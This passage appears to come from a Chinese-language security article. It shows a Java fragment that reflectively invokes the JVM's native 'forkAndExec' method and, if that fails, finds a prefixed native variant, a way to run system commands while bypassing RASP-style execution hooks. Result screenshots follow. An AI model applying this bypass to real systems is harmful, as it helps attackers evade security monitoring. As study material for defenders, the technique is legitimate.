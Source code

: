 ```plain
try {
        Method forkMethod = processClass.getDeclaredMethod("forkAndExec", new Class[]{
                int.class, byte[].class, byte[].class, byte[].class, int.class,
                byte[].class, int.class, byte[].class, int[].class, boolean.class
        });

        forkMethod.setAccessible(true);// 设置访问权限
        int pid = (int) forkMethod.invoke(processObject, new Object[]{
                ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        });
    } catch (Exception e) {
        System.out.println("[-] reflect forkAndExec failed,try to bypass");
        for (Method m : processClass.getDeclaredMethods()) {
            if (m.getName().endsWith("forkAndExec") && !m.getName().equals("forkAndExec")) {
                System.out.println("[+] get prefix native method : " + m.getName());
                m.setAccessible(true);
                int pid = (int) m.invoke(processObject, new Object[]{
                        ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                        null, envc[0], null, std_fds, false
                });
            }
        }
    }
```

效果![图片](assets/1704158474-0737263780d76b82406ed1944ff9a01a.png)

![图片](assets/1704158474-49ab01afb1e61ae57e6a8e4f5cbe012b.png)
